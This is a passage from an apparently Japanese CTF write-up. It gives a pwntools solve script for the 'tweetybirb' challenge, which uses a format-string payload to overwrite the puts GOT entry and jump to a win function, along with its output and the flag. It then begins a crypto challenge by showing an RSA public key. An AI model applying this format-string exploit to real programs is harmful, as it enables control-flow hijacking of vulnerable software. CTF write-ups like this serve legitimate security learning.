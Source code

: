 ```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(arch='amd64', os='linux')

s = remote('143.198.184.186', 5002)

elf = ELF('./tweetybirb', checksec=False)
win_addr = elf.symbols["win"]
payload = fmtstr_payload(6, {elf.got.puts: win_addr})
s.sendlineafter(b' magpies?\n', payload)

msg = s.recvline()
print(msg)
s.close()
```

<br />

実行結果：

<pre>
$ ./tweetybirb_solve.py
[+] Opening connection to 143.198.184.186 on port 5002: Done
b'   \x03   \x00   \x80aaaaba\x18@@kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}\n'
[*] Closed connection to 143.198.184.186 port 5002
</pre>


<br />

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`



<br /><br />
<br /><br />
## [Crypto]: Cloudsourcing
- - -
### Challenge
> Sourced in the cloud

Attachment:

- key.pub
- mystery.txt

key.pubの中身：
<pre>
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAzTf73VQrgsjh5aRpcE1w
aspEO5B48ZgjIfZyloCzR5cC2Rc1e+YwvI/2hNPuageLgmjOqk6FLO3dxa2kemzH
2EBG+n7RHlxIe4z6hobXCkXM4Sd4O7NvHlkebe5ULoOvpJxs5f7LB4zNffl49MLV
RmGJOWI33LVPi86VQg53U5nVCUTndmqWJsnjf06aeNJb0htFA1oy7eA9GaaNyBZC
7recU+pj5CJmnlitxaSaLLTahi7mlW92j4LDnDnIODhEtxqmWA3sMLoMGGwlve1+
cXd4+r1ovhkBWmkBR5/lp/p2KQLspet5HzDZgAlvQzA0Cw2q6B2mt33hgVb7JfT8
WQIDAQAB
-----END PUBLIC KEY-----
</pre>
